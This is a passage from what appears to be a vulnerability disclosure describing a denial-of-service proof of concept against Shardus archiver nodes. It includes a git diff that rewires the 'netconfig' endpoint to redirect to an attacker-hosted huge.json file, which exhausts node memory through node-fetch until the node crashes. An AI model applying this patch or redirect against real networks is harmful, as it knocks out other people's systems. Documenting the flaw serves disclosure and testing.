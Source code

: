 When running the exploit proof-of-concept, the effects start to be noticable when the RAM starts to run out and the eventual crash can take anywhere from few seconds to couple of minutes, depending on the target box resources. I suggest running this against a virtual machine or you'll risk crashing the system you're using yourself. If you want to entertain yourself, try the exploit couple of times to see the full range of possible outcomes.

During the run, you can of course inspect the usage of RAM and network capacity via top or other system monitoring tool.

## Proof-of-Concept: Archiver Node-Fetch Denial-of-Service attack
If you want to test out the Node-Fetch variant of this vulnerability, apply the following patch to the shardus-core repository of the ./exploit_test folder and compile as on JSON-RPC proof-of-concept. Before applying, set the target exploit server address in the redirect clause at the end:

```
diff --git a/src/network/index.ts b/src/network/index.ts
index ec6f9ad2..5499dca3 100644
--- a/src/network/index.ts
+++ b/src/network/index.ts
@@ -108,6 +108,8 @@ export class NetworkClass extends EventEmitter {
   }
 
   customSendJsonMiddleware(req, res, next) {
+    // MODIFIED, commenting this prevents node crash upon attempting to set already sent headers
+    /*
     const originalSend = res.send;
     res.send = function (data) {
       if (typeof data === 'object' && data !== null) {
@@ -123,7 +125,7 @@ export class NetworkClass extends EventEmitter {
       res.setHeader('Content-Type', 'application/json')
       return originalSend.call(this, jsonString)
     }
-
+    */
     next()
   }
 
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 06184f15..779bbd28 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -2690,7 +2690,9 @@ class Shardus extends EventEmitter {
       res.send({ config: this.config })
     })
     this.network.registerExternalGet('netconfig', async (req, res) => {
-      res.send({ config: netConfig })
+      // MODIFIED
+      // res.send({ config: netConfig })
+      res.redirect('http://192.168.0.100:8000/huge.json')
     })
 
     this.network.registerExternalGet('nodeInfo', async (req, res) => {
```

